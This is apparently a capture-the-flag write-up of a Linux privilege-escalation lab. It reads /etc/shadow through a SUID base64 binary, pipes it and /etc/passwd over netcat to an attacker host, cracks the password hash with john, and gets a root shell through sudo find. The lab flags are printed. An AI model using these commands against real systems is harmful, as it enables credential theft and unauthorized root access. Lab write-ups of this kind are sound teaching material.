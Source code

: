 SUID:

> `-rwsr-xr-x. 1 root root 37K Aug 20  2019 /usr/bin/base64`

Using [GTFOBins](https://gtfobins.github.io/gtfobins/base64/#suid)

lhost:

```bash
nc -q 1 -lvnp 80 | tee shadow
nc -q 1 -lvnp 81 | tee passwd
```

rhost:

```bash
base64 "/etc/shadow" | base64 --decode | nc 10.6.31.75 80
cat /etc/passwd | nc 10.6.31.75 81
```

lhost:

```bash
unshadow passwd shadow > passwords
john passwords
```

> `Password1 (missy)`

Using `missy:Password1`:

```bash
su missy
sudo -l
```

> `(ALL) NOSPASSWD: /usr/bin/find`

```bash
sudo find / -type f -name flag*.txt
```

> `/home/missy/Documents/flag1.txt`

> `/home/rootflag/flag2.txt`

```bash
cat /home/missy/Documents/flag1.txt
```

> `THM-42828719920544`

Using [GTFOBins](https://gtfobins.github.io/gtfobins/find/#sudo)

```bash
find . -exec /bin/sh \; -quit
cat /home/rootflag/flag2.txt
```

> `THM-168824782390238`
